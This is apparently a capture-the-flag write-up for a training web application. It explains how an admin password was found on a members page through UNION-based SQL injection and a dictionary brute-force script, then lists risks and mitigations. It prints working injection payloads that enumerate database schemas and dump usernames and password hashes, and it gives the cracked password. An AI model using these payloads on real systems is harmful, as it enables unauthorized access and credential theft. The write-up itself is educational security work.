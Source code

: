 # Bruteforce - Admin Member LogIn

A brute force attack consists in an attacker configuring predetermined values, making requests to a server using those values, and then analyzing the response.  
They are often used for attacking authentication and discovering hidden content/pages within a web application.  
To authentication, brute force attacks are used when an account lockout policy is not in place.

## Breach type
Brute Force :
* A07:2021 - Identification and Authentication Failures
    * CWE-521: Weak Password Requirements

On the specific case of weak password:
* CWE-1391: Use of Weak Credentials
* CWE-330: Use of Insufficiently Random Values		
* CWE-326: Inadequate Encryption Strength

SQL Injection :
* A03:2021 - Injection
* A01:2021 Broken Access Control
    * CWE-200 Exposure of Sensitive Information to an Unauthorized Actor.

## How to find the flag
* There are two way :   
SQL Injection :

* Go to the `Members` page

* Display all the tables of the databases with : `105 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.columns`

* Discover a table named `db_default` which contains three columns : `id, username, password`

* Try to view its content with the following SQL command `105 OR 1=1 UNION SELECT username, 1 FROM db_default`.
It will return this error message : `Table 'Member_Sql_Injection.db_default' doesn't exist.`
    * We understand that it looks for the content of `db_default` in the wrong database.
    * We now need to find in which database `db_default` is stored

* Use this command to show all the tables and their databases : `105 OR 1=1 UNION SELECT table_schema, table_name FROM information_schema.tables`.
    * We now know that `db_default` is part of the `Member_Brute_Force` database

* List all the usernames of `db_default` : `105 OR 1=1 UNION SELECT username, 1 FROM Member_Brute_Force.db_default`
    * We find two candidates : admin and root

* List all the password of `db_default`: `105 OR 1=1 UNION SELECT password, 1 FROM Member_Brute_Force.db_default`
    * We find hashed data for one specific password : `3bf1114a986ba87ed28fc1b5884fc2f8`
    * We don't know if it is for admin or root yet, so we'll try both.

* But first we need to decode it. 
    * There's 32 characters so it is probably hashed in MD5.
    * It is ! The password is `shadow`

Or Brute Force Attack :

However, as the password is stored in Member_Brute_Force we suspect that we need to specificly use a brute force method to retrieve it.
In order to do this we wrote a short script in Python using a dictionnary of most common used passwords as a source. 

We then check if the word `flag` is present in the response of the reconstructed URL : `full_url = f"{BASE_URL}&username={USERNAME}&password={password}&Login=Login#"`

We can now go to the Signin page and log in with :
* Username : `admin`
* Password : `shadow`

## Risks
* Poor password practices, such as using easily guessable passwords like "Password" or "123456", increase the risk of data breaches, identity theft, and business disruption :
    * Attackers exploit unchanged default settings or stolen passwords to gain unauthorized access, leading to data breaches and compromising critical systems.
    * Ineffective password management can lead to financial losses for mid-size businesses through incidents like phishing attacks and malware/ransomware.
    * Legal implications of poor password controls include regulatory non-compliance fines and potential legal costs from data breaches due to inadequate security measures.

## How to avoid
* Use strong, complex passwords that are unique for each account.
* Limit login attempts with account lockout mechanisms.
* Monitor and restrict login attempts from suspicious IP addresses.
* Implement Two-Factor Authentication (2FA) for added security.
* Utilize CAPTCHAs to differentiate between human users and bots.
* Consider using unique login URLs to deter attackers.
* Disable root SSH logins to prevent direct brute force attacks.
* Deploy Web Application Firewalls (WAFs) to block malicious traffic and enforce security policies.

## Sources
* https://cwe.mitre.org/data/definitions/521.html
* https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html
* https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/04-Authentication_Testing/07-Testing_for_Weak_Password_Policy
* https://www.itsasap.com/blog/how-to-prevent-brute-force-attacks
* https://jetpack.com/blog/weak-passwords/
* https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/